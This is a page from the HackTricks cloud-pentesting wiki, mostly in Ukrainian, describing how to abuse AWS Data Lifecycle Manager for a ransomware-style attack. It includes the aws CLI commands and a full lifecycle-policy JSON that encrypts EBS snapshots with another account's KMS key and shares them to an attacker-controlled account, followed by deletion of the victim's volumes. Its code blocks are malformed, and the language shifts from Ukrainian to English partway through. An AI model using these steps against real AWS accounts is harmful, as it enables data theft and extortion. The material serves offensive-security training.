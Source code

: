 # AWS - Менеджер життєвого циклу даних

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у PDF-форматі**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>

## Менеджер життєвого циклу даних (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Атаку розшифрування можна виконати, зашифрувавши якомога більше томів EBS, а потім видаливши поточні екземпляри EC2, томи EBS та знімки. Для автоматизації цієї зловмисної діяльності можна використовувати Amazon DLM, шифруючи знімки за допомогою ключа KMS з іншого облікового запису AWS та передавати зашифровані знімки на інший обліковий запис. Або можна передавати знімки без шифрування на обліковий запис, яким ви керуєте, а потім шифрувати їх там. Хоча не просто шифрувати існуючі томи EBS або знімки безпосередньо, можна це зробити, створивши новий том або знімок.

Спочатку використовується команда для збору інформації про томи, таку як ідентифікатор екземпляра, ідентифікатор тому, статус шифрування, статус прикріплення та тип тому.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```plaintext
aws dlm create-lifecycle-policy --description "Моя перша політика" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
```

A template for the policy document can be seen here:
```bash
```json
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "ЩоденніЗнімки",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "СтворювачЗнімка",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "ЦентрВитрат",
"Value": "Фінанси"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
